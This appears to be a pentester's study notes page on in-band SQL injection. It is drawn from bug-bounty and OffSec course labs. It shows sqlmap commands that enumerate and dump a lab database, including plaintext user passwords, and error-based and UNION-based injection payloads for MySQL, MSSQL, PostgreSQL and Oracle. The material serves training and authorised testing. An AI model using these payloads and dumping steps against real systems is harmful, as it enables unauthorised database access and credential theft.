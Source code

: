 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# In Band

{% hint style="info" %}
**In-Band SQLi** occrus when an attacker uses the same channel to both execute malicious SQL queries and retrieve the results.
{% endhint %}

## Basic Workflow

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The web application that we need to test has a `search` field associated with the `username` parameter (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_sqli_inBand_usernameParam.png" alt=""><figcaption><p>Figure 1: Using the application as intented.</p></figcaption></figure>

By fuzzing the `username` parameter using Burp Intruder's built-in SQLi wordlist, we can see that the results of a successful payload are returned within the HTTP response (Figure 2), which makes this an In Band SQLi.

<figure><img src="../../../../.gitbook/assets/web_sqli_inBand_intruder.png" alt=""><figcaption><p>Figure 2: Fuzzing the <code>username</code> parameter with built-in SQLi payloads.</p></figcaption></figure>

Since the SQLi vulnerability is confirmed, we can write the request to a file (_right-click_ > _Copy to file_) and continue testing using [`sqlmap`](sqlmap.md).

{% tabs %}
{% tab title="Basic Info" %}
{% code overflow="wrap" %}
```bash
$ sqlmap -r post_request.txt --batch
<SNIP>
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=jeremy' AND (SELECT 6462 FROM (SELECT(SLEEP(5)))zkFr) AND 'GiCb'='GiCb

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=jeremy' UNION ALL SELECT NULL,NULL,CONCAT(0x7162766271,0x534a50534a684c7153486868667a4656547777534b5257724a66486c4a506858526c6c6a51467a6d,0x71716b6a71)-- -
---
[11:57:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
```
{% endcode %}
{% endtab %}

{% tab title="Current DB" %}
```bash
# enumerating the current database
$ sqlmap -r post_request.txt --batch --current-db
<SNIP>
[12:04:04] [INFO] fetching current database
current database: 'bb-labs'
```
{% endtab %}

{% tab title="Tables" %}
```bash
$ sqlmap -r post_request.txt --batch -D bb-labs --tables
<SNIP>

[12:07:28] [INFO] fetching tables for database: 'bb-labs'
Database: bb-labs
[14 tables]
+------------------------+
| api0x01                |
| auth0x02               |
| auth0x03               |
| c0x03                  |
| csrf0x01               |
| csrf0x02               |
| idor0x01               |
| injection0x01          |
| injection0x02          |
| injection0x03_products |
| injection0x03_users    |
| injection0x04          |
| xss0x02                |
| xss0x03                |
+------------------------+
```
{% endtab %}

{% tab title="Data" %}
{% code overflow="wrap" %}
```bash
$ sqlmap -r post_request.txt --batch -D bb-labs -T injection0x01 --dump
<SNIP>

[12:09:12] [INFO] fetching columns for table 'injection0x01' in database 'bb-labs'
[12:09:12] [INFO] fetching entries for table 'injection0x01' in database 'bb-labs'
Database: bb-labs
Table: injection0x01
[3 entries]
+---------------------+------------------+----------+
| email               | password         | username |
+---------------------+------------------+----------+
| jeremy@example.com  | jeremyspassword  | jeremy   |
| jessamy@example.com | jessamyspassword | jessamy  |
| bob@example.com     | bobspassword     | bob      |
+---------------------+------------------+----------+
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Error-Based

{% hint style="info" %}
**Error-based SQLi** occurs when the attacker inserts SQL commands to deliberately generate database errors, which can used to expose database details, such as table and column names, allowing the attacker to extract sensitive information.
{% endhint %}

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

On way of making a database to return verbose error messages, which often include its version, is by forcing erroneous data type conversions (Figure 3).

```sql
// MSSQL and PostgreSQL payload
cast(@@version as integer)
```

<figure><img src="../../../../.gitbook/assets/web_sqli_error_based_1.png" alt=""><figcaption><p>Figure 3: Forcing a verbose error message disclosing the database's version.</p></figcaption></figure>

MySQL returns a `null` value instead of throwing an error, so its XML functions need to be used: `ExtractValue()` and `UpdateXML()`. The goal while using the former is to submit an invalid XPath expression. In this case, the `>` is used because it is a delimiter in XML and cannot be part of a valid XML node.

```sql
// MySQL payload
extractvalue('',concat('>',version()))
```

For Oracle databases, the syntax is becoming more complicated and a sub-query along with the double pipe operator (`||`) for concatenation needs to be used.

```sql
to_char(
  dbms_xmlgen.getxml(
    'select "'||
      (select substr(banner,0,30) from v$version where rownum=1)
    ||'" from sys.dual'
  )
) 
```

## UNION-Based

{% hint style="info" %}
A **UNION SQLi** occurs when an attacker uses the `UNION` SQL operator to combine the results of malicious queries with the results of legitimate queries, often to retrieve additional data.
{% endhint %}

When using a `UNION` two conditions must be met:

1. The invididual queries must return the same number of columns.
2. The data types in each column must be compatible between the individual queries.

As a result, launching a successful `UNION` attack requires us to answer:

1. How many columns are returned from the original query?
2. Which columns are suitable to hold the results from the injected query?

We can enumerate the column number by incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error (Figure 4a & 4b).

<figure><img src="../../../../.gitbook/assets/lab1_sqli_test_burp.png" alt=""><figcaption><p>Figure 3: Detecting SQLi.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/lab1_orderby1_burp.png" alt=""><figcaption><p>Figure 4a: Indexing the first column.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/lab1_orderby4_burp.png" alt=""><figcaption><p>Figure 4b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal (Figure 5).

<figure><img src="../../../../.gitbook/assets/lab1_solved_burp.png" alt=""><figcaption><p>Figure 5: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

After finding the number of columns returned, we need to exfiltrate data which is usually in text form. As a result, we must enumerate which column in the original query can hold text data. This can be done by passing a random string column by column until the server accepts it (Figure 6).

<figure><img src="../../../../.gitbook/assets/lab2_datatype_pos (1).png" alt=""><figcaption><p>Figure 6: Enumerating a column that accepts strings.</p></figcaption></figure>
